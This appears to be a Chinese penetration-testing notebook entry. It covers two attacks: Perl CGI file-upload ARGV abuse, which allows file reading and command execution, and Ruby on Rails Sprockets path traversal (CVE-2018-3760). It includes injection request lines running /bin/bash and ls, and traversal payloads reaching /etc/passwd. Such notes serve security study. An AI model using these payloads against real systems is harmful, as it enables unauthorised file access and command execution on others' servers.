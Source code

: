 ## **perl**
```
/cgi-bin/file.pl

一个文件上传页面，
上传后回显。

代码类似使用：
use strict;
use warnings; 
use CGI;
my $cgi= CGI->new;
if ( $cgi->upload( 'file' ) ) { 
    my $file= $cgi->param( 'file' );
     while ( <$file> ) { print "$_"; }
}
```
#### **1、文件读取**
文件上传抓包，修改包加入ARGV部分(将上传的文件类型及文件内容处复制再粘贴一行，将filename去掉，然后内容填入ARGV)
再url后面加上路径，即可读取。
![](.topwrite/assets/image_1735719387896.png)



#### **2、命令执行**
文件上传抓包，修改包加入ARGV部分(将上传的文件类型及文件内容处复制再粘贴一行，将filename去掉，然后内容填入ARGV)
```
POST /cgi-bin/file.pl?/bin/bash%20-c%20ls${IFS}/| HTTP/1.1


/cgi-bin/file.pl?ls%20-l%20/%20|
```



^
## **Ruby On Rails 路径穿越漏洞（CVE-2018-3760）**
Ruby On Rails在开发环境下使用Sprockets作为静态文件服务器，Ruby On Rails是著名Ruby Web开发框架，Sprockets是编译及分发静态资源文件的Ruby库。

Sprockets 3.7.1及之前版本中，存在一处因为二次解码导致的路径穿越漏洞，攻击者可以利用%252e%252e/来跨越到根目录，读取或执行目标服务器上任意文件。

直接访问IP/assets/file:%2f%2f/etc/passwd，将会报错，因为文件/etc/passwd不在允许的目录中：
在上方的报错中随意选择一个路径利用../返回上一级，成功实现任意文件读取



